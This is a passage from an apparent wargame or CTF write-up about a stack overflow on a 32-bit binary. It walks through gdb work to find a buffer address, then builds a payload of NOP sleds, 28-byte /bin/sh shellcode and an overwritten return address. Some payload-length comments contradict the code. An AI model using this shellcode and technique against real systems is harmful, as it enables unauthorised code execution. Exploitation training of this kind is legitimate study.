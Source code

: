 ### 13. Finding the Large Buffer Address
```bash
(gdb) disas p
# Finding the large buffer location:
0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax    # buffer start

(gdb) break *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
 - 
Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe680:     0x00000000

# Buffer address: 0xbfffe680
# After 61 bytes of concatenated data: 0xbfffe680 + 61 = 0xbfffe6bd
# Safe address in NOP sled: 0xbfffe6d0
```

**Address Calculation:**
- **Large buffer start**: 0xbfffe680
- **After concatenated data**: 0xbfffe680 + 61 = 0xbfffe6bd
- **Safe return address**: 0xbfffe6d0 (in NOP sled region)

## Exploitation Implementation

### 14. Constructing the Shellcode Payload
```bash
# Shellcode for /bin/sh execution (28 bytes):
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

# First input: NOP sled + shellcode (exactly 20 bytes for null-termination bypass)
first_input = "\x90" * (20 - len(shellcode)) + shellcode  # Invalid: too short
# Better approach: Place shellcode after initial NOP padding
first_input = "\x90" * 20  # Exactly 20 NOPs to bypass null termination

# Extended payload in large buffer:
extended_payload = "\x90" * 100 + shellcode  # 100 NOPs + 28 bytes shellcode
```

### 15. Crafting the Complete Exploit
```bash
# First input: Exactly 20 bytes to bypass null termination
first_payload = python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'

# Second input: 9 bytes padding + return address + 7 bytes padding
second_payload = python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'

# Explanation:
# "A" * 9: Padding to reach return address position
# "\xd0\xe6\xff\xbf": Return address 0xbfffe6d0 in little-endian
# "B" * 7: Remaining padding to reach 20 bytes
```
